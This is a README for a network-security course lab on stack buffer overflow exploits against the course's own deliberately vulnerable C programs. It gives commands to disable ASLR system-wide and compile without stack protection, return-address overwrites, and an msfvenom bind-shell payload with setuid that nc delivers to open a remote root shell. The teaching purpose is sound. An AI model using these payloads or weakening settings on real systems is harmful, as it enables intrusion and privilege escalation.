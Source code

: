 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```
# Test Exercise

This test exercise is used to explain how memory works and how data is managed into the stack.

## Compilation
```bash
    cd /path/to/repo/src/ex0
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise0.c -o exercise0
```

## Execution
```bash
    cd /path/to/repo/src/ex0
    gdb exercise0
```
# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src/ex1
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src/ex1
    ./exercise1 input
```
# Second Exercise

The second exercise consists in overwrite the `RET` address of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src/ex2
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src/ex2
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src/ex2
    ./exercise2 $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `RET` address of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src/ex3
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise3_server.c -o exercise3_server
```

## Create a shellcode using msfvenom
```bash
msfvenom -p linux/x86/shell_bind_tcp AppendExit=true PrependSetuid=true PrependSetresgid=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src/ex3
    ./exercise3_server
```

## Execution Client
```bash
    use one of the ex3-client file to generate a malicious string
    ./ex3-client*.py > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
